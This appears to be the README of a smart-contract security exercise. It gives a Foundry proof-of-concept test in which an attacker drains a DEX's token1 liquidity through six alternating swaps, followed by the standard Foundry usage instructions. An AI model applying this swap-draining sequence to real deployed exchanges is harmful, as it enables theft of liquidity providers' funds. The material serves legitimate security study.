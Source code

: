 # PoC Dex
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity. 

## Actors:
Attacker - The attacker make some series of swaps to the DEX to drain the liquidity
Protocol - The protocol is a DEX the allows two different types of token to be swapped, token one & token two.

### Test Case:
`

function test_multiple_swaps() public {
        vm.startPrank(attacker);
        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        uint256 token1Expected = token1.balanceOf(address(dex));
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);

        uint256 token1Balance = token1.balanceOf(attacker);
        uint256 token1ExpectedAfter = token1.balanceOf(address(dex));
        
        assert(token1Balance == token1Expected + 10);
        assertEq(token1ExpectedAfter, 0);
    }
`



## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
